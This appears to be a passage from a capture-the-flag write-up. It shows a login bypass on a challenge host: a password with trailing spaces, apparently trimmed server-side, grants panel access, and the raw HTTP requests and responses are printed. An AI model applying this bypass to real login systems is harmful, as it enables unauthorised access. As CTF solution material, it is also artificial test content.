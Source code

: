@4yn found that using a password of `1234  ` worked and managed to gain access to a control panel.
This could have worked possibly because the password was trimmed.

On a successful login, we were redirected to `success.php`.

```
POST /index.php HTTP/1.1
Host: 176.32.76.86
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: http://176.32.76.86
Connection: close
Referer: http://176.32.76.86/index.php
Cookie: PHPSESSID=68f86c7463ae9b46df5f8b587bef3da4
Upgrade-Insecure-Requests: 1

username=user1&password=1234++
```

Response received:

```
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.21.4
Date: Fri, 26 Nov 2021 06:14:44 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/5.6.40
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: PHPSESSID=a194e66cf00ee816ce7d68fd431b13ce; path=/
Location: success.php
Content-Length: 0


```

On this `success.php` page, we were granted access to a 'System Monitoring' site that had a link to
an `apidoc.php` link and some Javascript that calls `http://176.32.76.86:5000`.

```
GET /success.php HTTP/1.1
Host: 176.32.76.86
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://176.32.76.86/index.php
Connection: close
Cookie: PHPSESSID=a194e66cf00ee816ce7d68fd431b13ce
Upgrade-Insecure-Requests: 1


```
